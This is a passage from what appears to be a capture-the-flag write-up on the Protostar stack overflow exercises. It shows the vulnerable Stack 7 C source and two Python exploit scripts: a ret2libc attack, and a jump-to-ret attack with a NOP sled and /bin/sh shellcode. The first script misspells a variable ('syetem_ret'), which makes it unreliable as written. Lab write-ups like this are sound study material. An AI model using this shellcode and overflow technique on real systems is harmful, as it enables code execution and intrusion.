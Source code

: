 ```py
import struct
BOF = 80*"A"
system=struct.pack("I",0xb7ecffb0)
system_ret='BBBB'
bash=struct.pack("I",0xb7e97000+0x11f3bf)
print BOF + system + syetem_ret + bash
```

## Stack 7

```c
char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

- ### jmp to ret again_

like stack6 we can solve stack7 with this technique

```py
import struct
BOF = 80*"A"
ret=struct.pack("I",0x08048544)
jmpaddr=struct.pack("I",0xbffff7f0)
nope = 100*"\x90";
shell ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print BOF + ret + jmpaddr + nope + shell
```

- ### ret2.text
